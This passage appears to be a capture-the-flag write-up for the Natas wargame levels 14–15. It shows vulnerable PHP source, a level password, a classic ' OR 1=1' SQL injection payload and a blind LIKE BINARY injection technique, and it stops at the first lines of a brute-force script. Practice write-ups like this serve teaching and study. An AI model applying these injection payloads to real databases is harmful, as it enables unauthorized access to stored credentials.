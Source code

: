 ```php
    mysql_close($link);
} else {
?>
```
This webapp does a SQL query without doing any protection from injections. Using the classical payload:
```sql
" OR 1=1-- -
```
Gets you the password

## nata15
```
natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```
Code
```php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

```
At first I thought this was a UNION based SQL injection because they gave you the name of the table and both rows. However, looking at the code there is no way for the results to be echoed out. Everything that is returned is hardcoded. If you put in a random user you'll get "This user doesn't exist" but if you input the classic SQL injection you get "This user exists". This is most likely a BLIND SQL injection where you can slowly reveal information using SQL wildcard.<br><br>
So if you inject:
```sql
natas16" AND password LIKE BINARY "W%";-- -
```
I write a small Python script to automate this and get the password
```python
#!/usr/bin/env python3
import requests
import string
```